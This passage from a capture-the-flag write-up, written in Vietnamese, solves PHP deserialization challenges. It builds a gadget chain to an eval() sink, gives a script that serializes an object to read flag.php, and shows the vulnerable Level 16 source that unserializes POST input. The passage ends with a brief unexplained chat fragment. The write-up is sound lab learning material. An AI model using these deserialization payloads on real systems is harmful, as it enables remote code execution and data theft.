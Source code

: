 Như đề bài đã thông báo, flag nằm ở `flag.php` như vậy là ta cần tìm sink nào cho phép ít nhất là LFI để đọc file flag. Dễ dàng nhận thấy ở class `destnation` có `eval()` có khả năng làm được việc này

Vậy là target đã có, giờ là lúc đi ngược lại để tìm cách trigger. Thứ tự mình xây dựng sẽ như sau:
- Giá trị được eval sẽ là `$this->cmd->a->b->c`, được kích hoạt bằng method action của class destnation (chắc là destination mà mấy ông b trung của viết sai chính tả). Như vậy là đầu tiên, trigger được action và cái `$this->cmd` có property `$a`
- `action` sẽ được trigger bởi magic method `__wakeup()` trong class D, điều này dễ dành thực hiện bằng cách truyền vào lệnh unserialize object D ở ngoài cùng
- Giờ thì mình set up sao cho giá trị của `$this->cmd->a->b->c` là câu lệnh mình muốn thực thi => Solved

Script:

```php
$data1 = new C("echo file_get_contents('flag.php');");
$data2 = new B($data1);
$data3 = new A($data2);
$data4 = new destnation($data3);
$data5 = new D($data4);

echo serialize($data5);
```

![image]({{ "/assets/img/2025-07-25-PHPDeserChall/image8.png" | relative_url }})

#### Level 16

```php
class A {
    public $a;
    public function __invoke() {
            include $this->a;
            return $flag;
    }
}

class B {
    public $b;
    public function __toString() {
        $f = $this->b;
        return $f();
    }
}


class INIT {
    public $name;
    public function __wakeUp() {
        echo $this->name.' is awake!';
    }
}

if(isset($_POST['o'])) {
    unserialize($_POST['o']);
} else {
    highlight_file(__FILE__);
}
```


[YOU]: HelloBooooooy
[FRIEND]: Hm.. you don't see to be the friend I was waiting for..
[FRIEND]: Oh ! Hi! Let me show you my secret: 